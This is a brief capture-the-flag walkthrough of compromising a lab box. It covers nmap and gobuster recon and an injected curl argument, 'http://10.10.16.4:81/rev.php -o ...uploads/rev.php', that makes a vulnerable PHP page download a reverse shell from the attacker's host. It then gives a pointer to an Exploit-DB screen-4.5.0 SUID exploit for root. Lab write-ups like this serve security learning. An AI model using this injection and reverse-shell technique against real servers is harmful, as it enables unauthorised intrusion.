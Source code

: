 Started with a nmap scan
```
22 OpenSSH 7.2p2
80 nginx 1.10.0
```
Going to the website its just a picture and nothing else so going to run a gobuster scan
```
/uploads
/exposed.php
```
And this file checks if websites on the localhost are working this will also reach back out to us we can also test for ssrf but this gets us nothing looking back at what the page is doing its using the curl command so we can pass arguments to it and save a file `http://10.10.16.4:81/rev.php -o /var/www/html/uploads/rev.php` and then we can start are listener and then we can read the file in the `/uploads/` folder and now we have a reverse shell as `www-data` and we can get the user flag now running linpeas there is a binary with suid priv `/usr/bin/screen-4.5.0` and if we look on exploit DB there is a exploit for this to get us to root its on exploit DB  